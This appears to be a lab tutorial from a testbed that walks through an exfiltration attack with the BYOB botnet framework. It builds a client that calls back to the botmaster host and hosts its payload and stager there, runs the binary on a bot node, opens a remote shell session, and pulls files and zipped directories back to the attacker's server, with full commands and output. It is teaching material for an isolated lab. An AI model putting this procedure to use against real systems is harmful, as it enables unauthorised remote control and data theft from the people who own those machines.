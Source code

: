 ## Exfiltration Attack
The data is exfiltrated from bot nodes (`b1` in our case) to botmaster (`botmaster` in our case).

### Connection with client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 exfiltrate
```
The output should look like this:

```shell


88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[>] Modules
        Adding modules...  -[-] can't add module: 'exfiltrate' (does not exist)
(4 modules added to client)

[>] Imports
        Adding imports...-(32 imports from 4 modules)

[>] Payload
        Uploading payload...  -(hosting payload at: http://botmaster.infra:1338/clients/payloads/jIJ.py)

[>] Stager
        Uploading stager... -(hosting stager at: http://botmaster.infra:1338/clients/stagers/jIJ.py)

[>] Dropper
        Writing dropper...  (355 bytes written to /modules/clients/droppers/byob_jIJ.py)
        Compiling executable...
91 INFO: PyInstaller: 6.4.0, contrib hooks: 2024.1
91 INFO: Python: 3.9.2
.
.
.
19652 INFO: Appending PKG archive to custom ELF section in EXE
19714 INFO: Building EXE from EXE-00.toc completed successfully.
(22,541,192 bytes saved to file: /opt/byob/byob/dist/jIJ)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/jIJ b1.infra:
```

Lastly, startup the server
```shell
python3 -u server.py
```
The server should start and should start a prompt as follows:

```shell
88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[?]  Hint: show usage information with the 'help' command

[rishitsaiya @ /opt/byob/byob]>
```

Parallely, SSH to the b1 node from your XDC through different terminal
```shell
ssh b1
```
Execute the payload from here
```shell
./jIJ
```

At this point, the server should display a message like:
```shell
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

Connect with the bot node using
```shell
shell 0
```
You can verify the socket connection by typing `ls` at prompt in server to check.

#### Test Files Creation
For demo purposes I have made `test.txt`, `test_dir/` on `b1` node.

```shell
rishitsaiya@b1:~$ ls
jIJ test_dir test.txt

rishitsaiya@b1:~$ cd test_dir/
rishitsaiya@b1:~/test_dir$ ls
test.txt
rishitsaiya@b1:~/test_dir$ cat test.txt 
This is a test file.
```

#### Exfiltrate from b1 to botmaster
On botmaster node where the server is running, type the command:

```shell
[ 0 @ /home/rishitsaiya ]>upload test.txt

Upload complete

[ 0 @ /home/rishitsaiya ]>upload test_dir

Upload complete
```

It should look like this.

#### Access Exfiltrated data at botmaster
At the botmaster node, check the directory called `output`. There should files with encoded names in `output` directory.

```shell
rishitsaiya@botmaster:/opt/byob/byob$ cd output/
rishitsaiya@botmaster:/opt/byob/byob/output$ ls
8ky..txt  rha..zip
rishitsaiya@botmaster:/opt/byob/byob-bcs/byob/output$ cat 8ky..txt 
This is a test file.
rishitsaiya@botmaster:/opt/byob/byob-bcs/byob/output$ unzip rha..zip 
Archive:  rha..zip
 extracting: test_dir/test.txt       
rishitsaiya@botmaster:/opt/byob/byob-bcs/byob/output$ ls
8ky..txt  rha..zip  test_dir
rishitsaiya@botmaster:/opt/byob/byob-bcs/byob/output$ cd test_dir/
rishitsaiya@botmaster:/opt/byob/byob-bcs/byob/output/test_dir$ cat test.txt 
This is a test file.
```

The file `test.txt` becomes `8ky..txt` when exfiltrated. There can be other names too, but the content of the file and file formats remains uncorrupted. The directory `test_dir` when exfiltrated from the `b1` to `botmaster` is programmed to get zipped and exfiltrated and hence it becomes `rha..zip`.